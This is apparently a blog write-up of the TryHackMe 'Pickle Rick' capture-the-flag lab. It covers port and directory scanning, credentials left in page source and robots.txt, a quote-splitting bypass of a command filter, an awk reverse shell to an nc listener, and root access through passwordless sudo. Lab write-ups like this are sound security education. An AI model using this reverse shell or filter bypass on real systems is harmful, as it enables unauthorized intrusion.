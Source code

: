 +++
title = 'THM: Pickle Rick'
date = 2024-08-16T12:06:46+03:00
draft = false
+++

## Task

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle

## Enumeration

### Port Scan

````
nmap -sV -sC 10.10.93.106

Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-16 10:26 BST
Nmap scan report for ip-10-10-93-106.eu-west-1.compute.internal (10.10.93.106)
Host is up (0.00026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:8E:DC:DD:72:CF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
````

## SSH Server

Only accepts certificate based authentication.

## Web Server

Apache 2.4.41 on Ubuntu.

### Source Code

There is a comment field with a username in it. 

````
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
````

### Structure

Scan the webpage with Gobuster to find directory structure.

````
gobuster dir -u http://10.10.93.106/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
````

Found the following paths.

````
/assets (Status: 301)
/server-status (Status: 403)s
````

Scanning again with a different wordlist reveals robots.txt file.

````
gobuster dir -u http://10.10.93.106 -w /usr/share/wordlists/dirb/big.txt
````

Robots.txt contains one entry "Wubbalubbadubdub".

Brute forcing the site for files of interest.

````
gobuster dir -u http://10.10.93.106/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
````

Gobuster scan finds a list of pages:

`````
/login.php (Status: 200)
/index.html (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/denied.php (Status: 302)
/server-status (Status: 403)
`````

### Login Page

Login page can be found from /login.php.

Login with R1ckRul3s:Wubbalubbadubdub succeeds.

### Credentialed Enumeration

Running "ls" reveals Sup3rS3cretPickl3Ingred.txt, but "cat" has been disabled.

### Command Injection

Bypassing the command filter using quotations marks.

````
c"a"t Sup3rS3cretPickl3Ingred.txt
````

### Credentialed Enumeration (Continued)

Another interesting file is clue.txt.

````
c"a"t clue.txt
````

For quicker enumeration a RSHELL was established.

`````
# Attackbox
nc -nvlp 4444

# Target
awk 'BEGIN {s = "/inet/tcp/0/10.10.113.113/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
`````

Something interesting is found from Rick's home folder.

### Privilege Escalation to Root

Running "sudo -l" shows that www-data user can run elevated commands without password.

````
shell>sudo -l
Matching Defaults entries for www-data on ip-10-10-32-60:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-32-60:
    (ALL) NOPASSWD: ALL
````

With that a quick check with "ls" on root's home folder reveals something interesting.

Challenge completed.